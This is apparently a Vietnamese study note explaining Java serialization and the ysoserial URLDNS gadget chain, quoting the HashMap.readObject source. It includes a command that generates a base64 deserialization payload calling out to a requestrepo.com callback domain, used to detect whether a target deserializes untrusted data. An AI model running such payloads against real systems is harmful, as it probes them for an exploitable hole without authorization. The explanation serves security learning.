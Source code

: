 ở trên là các định dạng dữ liệu phổ biến được sử dụng trong tương tác dữ liệu

Vấn đề là nếu dữ liệu phức tạp hơn thì khó có thể truyền tải được

Với trường hợp ta muốn truyền tải một class Person bao gồm tên + tuổi + method ... thì ta cần sử dụng serialize và deserialize



## Option1 URLDNS  
genpayload: `java -jar ysoserial-all.jar URLDNS "http://e3t352l0.requestrepo.com" | base64 -w0`

Chain này bao gồm các thành phần như sau:

```
  HashMap.readObject()
    HashMap.hash()
      URL.hashCode()
        URLStreamHandler.hashCode()
          URLStreamHandler.getHostAddress()
            InetAddress.getByName()
```

Gadget chain này tồn tại bên trong runtime.jar của java -> mục đích cuối cùng của nó là tạo 1 request dns lookup tới domain tùy úy -> kiểm tra xem targer có thể deserialize obj này được hay không


* Tiến hành tìm hiểu các gadget chain -> ta sẽ chọn HashMap.java

![image](https://hackmd.io/_uploads/rJxihKThA.png)


-> tìm đến method readObject

```
private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        reinitialize();

        ObjectInputStream.GetField fields = s.readFields();

        // Read loadFactor (ignore threshold)
        float lf = fields.get("loadFactor", 0.75f);
        if (lf <= 0 || Float.isNaN(lf))
            throw new InvalidObjectException("Illegal load factor: " + lf);

        lf = Math.min(Math.max(0.25f, lf), 4.0f);
        HashMap.UnsafeHolder.putLoadFactor(this, lf);

        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0) {
            throw new InvalidObjectException("Illegal mappings count: " + mappings);
        } else if (mappings == 0) {
            // use defaults
        } else if (mappings > 0) {
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);
```
